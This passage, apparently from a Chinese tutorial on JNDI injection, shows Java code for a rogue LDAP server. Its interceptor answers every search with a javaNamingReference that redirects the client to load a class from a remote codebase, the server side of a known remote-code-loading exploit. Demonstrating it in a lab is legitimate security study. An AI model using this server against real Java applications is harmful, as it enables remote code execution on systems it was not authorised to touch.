 ```java
        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

**客户端ldap_client.java**



